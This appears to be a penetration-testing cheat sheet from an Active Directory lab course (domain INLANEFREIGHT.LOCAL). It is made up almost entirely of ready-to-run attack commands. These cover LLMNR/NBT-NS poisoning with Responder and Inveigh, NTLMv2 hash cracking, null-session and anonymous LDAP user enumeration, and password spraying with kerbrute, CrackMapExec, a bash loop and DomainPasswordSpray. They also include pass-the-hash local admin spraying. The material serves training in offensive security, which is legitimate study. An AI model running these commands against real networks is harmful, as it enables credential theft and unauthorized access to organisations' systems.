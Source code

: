 ### **Basic steps**
1. Start Wireshark: `sudo -E wireshark`
2. Tcpdump Output: `sudo tcpdump -i ens224 `
3. Use Responder: `sudo responder -I ens224 -A `
4. FPing Active Checks: `fping -asgq 172.16.5.0/23`
5. Nmap Scanning: `sudo nmap -v -A -iL hosts.txt`

### **Identifying Users with [Kerbrute](https://github.com/ropnop/kerbrute)**
```bash
sudo git clone https://github.com/ropnop/kerbrute.git`
sudo make all
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
### **LLMNR/NBT-NS Poisoning - from Linux**
1. Run Responder: `sudo responder -I ens224 `
2. Cracking an NTLMv2 Hash With Hashcat: `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`
### ** LLMNR/NBT-NS Poisoning - from Windows**
1. Inveigh
    1. `Import-Module .\Inveigh.ps1`
    2. `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
2. C# Inveigh (InveighZero): `.\Inveigh.exe`
### **Enumerating the Password Policy - from Linux - Credentialed**
1. CME: `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`
2. RPCClient:
    1. `rpcclient -U "" -N 172.16.5.5`
    2. `querydominfo`
3. Enum4linux: `enum4linux -P 172.16.5.5`
4. Enum4linux-ng: `enum4linux-ng -P 172.16.5.5 -oA ilfreight`
### **Enumerating Null Session - from Windows**
1. Establish a null session from windows: `net use \\DC01\ipc$ "" /u:""`
2. Common errors when trying to authenticate:
    1. `net use \\DC01\ipc$ "" /u:guest` System error 1331 has occurred. This user can't sign in because this account is currently disabled.
    2. `net use \\DC01\ipc$ "password" /u:guest`
        1. System error 1326 has occurred. The user name or password is incorrect.
        2. System error 1909 has occurred. The referenced account is currently locked out and may not be logged on to.
### **Enumerating the Password Policy - from Linux - LDAP Anonymous Bind**
1. Ldapsearch: `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`
2. 
### **Enumerating the Password Policy - from Windows**
1. Using net.exe: `net accounts`
2. Using PowerView: `Get-DomainPolicy`
### **Password Spraying - Making a Target User List**
1. Using enum4linux: `enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"`
2. Using rpcclient: 
    1. `rpcclient -U "" -N 172.16.5.5`
    2. `enumdomusers`
3. Using CrackMapExec --users Flag: `crackmapexec smb 172.16.5.5 --users`
4. Gathering Users with LDAP Anonymous:
    1. Using ldapsearch: `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "`
    2. Using windapsearch: `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`
5. Kerbrute User Enumeration: `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt `
6. 
### **Credentialed Enumeration to Build our User List**
1. CME: `sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users`
### **Internal Password Spraying - from Linux**
1. Using a Bash one-liner for the Attack: `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`
2. Using Kerbrute for the Attack: `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1`
3. Using CrackMapExec & Filtering Logon Failures: `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`
4. Validating the Credentials with CrackMapExec: `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`
5. Local Admin Spraying with CrackMapExec: `sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`
### **Internal Password Spraying - from Windows**
1. Using [DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray): 
    1. `Import-Module .\DomainPasswordSpray.ps1`
    2. `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`
    
